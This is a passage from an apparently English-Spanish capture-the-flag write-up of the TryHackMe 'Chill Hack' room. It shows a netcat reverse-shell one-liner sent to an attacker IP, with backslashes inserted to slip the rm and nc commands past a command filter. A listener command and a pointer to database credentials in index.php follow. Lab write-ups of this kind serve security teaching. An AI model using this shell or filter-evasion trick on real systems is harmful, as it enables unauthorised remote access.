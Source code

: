 ![index code](/images/THM/chillhack/Captura9.PNG)

Let's get a reverse shell, remembering to add in the filtered commands, the backslash.

```sh
r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|n\c 10.18.37.87 4444 >/tmp/f
```


![revshell](/images/THM/chillhack/Captura10.PNG)

We prepare the listener.

```sh
nc -lvnp 4444
```

Ya estamos dentro!

![connection](/images/THM/chillhack/Captura11.PNG)

If we move a little, through the subfolders in **/var/www**, we can find an **index.php**, in which we find some credentials for the database.
